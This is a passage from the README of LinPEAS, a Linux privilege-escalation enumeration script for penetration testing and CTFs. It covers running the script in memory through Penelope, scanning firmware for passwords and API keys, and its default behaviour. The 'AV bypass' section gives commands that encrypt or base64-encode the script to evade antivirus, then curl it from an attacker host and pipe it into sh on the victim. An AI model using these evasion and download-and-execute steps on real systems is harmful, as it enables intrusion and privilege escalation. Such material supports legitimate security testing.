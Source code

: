 ```bash
# Execute from memory in Penelope session
# From: https://github.com/brightio/penelope
> run peass-ng
```

## Firmware Analysis
If you have a **firmware** and you want to **analyze it with linpeas** to **search for passwords or bad configured permissions** you have 2 main options.

- If you **can emulate** the firmware, just run linpeas inside of it:
```bash
cp /path/to/linpeas.sh /mnt/linpeas.sh
chroot /mnt #Supposing you have mounted the firmware FS in /mnt
bash /linpeas.sh -o software_information,interesting_files,api_keys_regex
```

- If you **cannot emulate** the firmware, use the `-f </path/to/folder` param:
```bash
# Point to the folder containing the files you want to analyze
bash /path/to/linpeas.sh -f /path/to/folder
```

## AV bypass
```bash
#open-ssl encryption
openssl enc -aes-256-cbc -pbkdf2 -salt -pass pass:AVBypassWithAES -in linpeas.sh -out lp.enc
sudo python -m SimpleHTTPServer 80 #Start HTTP server
curl 10.10.10.10/lp.enc | openssl enc -aes-256-cbc -pbkdf2 -d -pass pass:AVBypassWithAES | sh #Download from the victim

#Base64 encoded
base64 -w0 linpeas.sh > lp.enc
sudo python -m SimpleHTTPServer 80 #Start HTTP server
curl 10.10.10.10/lp.enc | base64 -d | sh #Download from the victim
```

## Basic Information

The goal of this script is to search for possible **Privilege Escalation Paths** (tested in Debian, CentOS, FreeBSD, OpenBSD and MacOS).

This script doesn't have any dependency.

It uses **/bin/sh** syntax, so can run in anything supporting `sh` (and the binaries and parameters used).

By default, **linpeas won't write anything to disk and won't try to login as any other user using `su`**.

By default linpeas takes around **4 mins** to complete, but It could take from **5 to 10 minutes** to execute all the checks using **-a** parameter *(Recommended option for CTFs)*:
- From less than 1 min to 2 mins to make almost all the checks
- Almost 1 min to search for possible passwords inside all the accesible files of the system
- 20s/user bruteforce with top2000 passwords *(need `-a`)* - Notice that this check is **super noisy**
- 1 min to monitor the processes in order to find very frequent cron jobs *(need `-a`)* - Notice that this check will need to **write** some info inside a file that will be deleted
